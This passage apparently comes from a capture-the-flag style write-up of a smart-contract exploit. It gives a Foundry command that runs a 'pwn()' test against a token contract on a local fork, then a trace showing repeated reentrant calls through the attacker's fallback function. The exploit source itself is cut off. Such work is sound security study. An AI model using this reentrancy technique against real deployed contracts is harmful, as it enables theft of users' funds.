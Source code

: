 ```solidity
}
```

Running the above script with forge:

```bash
forge run test/token.t.sol --fork-url http://127.0.0.1:8545 --sig "pwn()" -vvvv
```

returns the following output:

<div class="table-wrapper">
<pre><b>[</b><font color="#4E9A06"><b>⠒</b></font><b>]</b> Compiling...    
<b>[</b><font color="#4E9A06"><b>⠢</b></font><b>]</b> Compiling 6 files with 0.8.13    
<b>[</b><font color="#4E9A06"><b>⠰</b></font><b>]</b> Solc 0.8.13 finished in 2.02s  
Compiler run successful
Traces:   
  [278997] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">pwn</font>()    
    ├─ [28455] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">dbd6bdcb</font>{value: 12}()   
    │   └─ <font color="#4E9A06">← </font>()
    ├─ [234688] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)    
    │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>
    │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font> 
    │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font> 
    │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>
    │   ├─ [198085] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000001e13380 
    │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 1)   
    │   │   ├─ [171914] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>  
    │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font> 
    │   │   │   ├─ [159211] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000003c26700 
    │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 2)   
    │   │   │   │   ├─ [154940] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    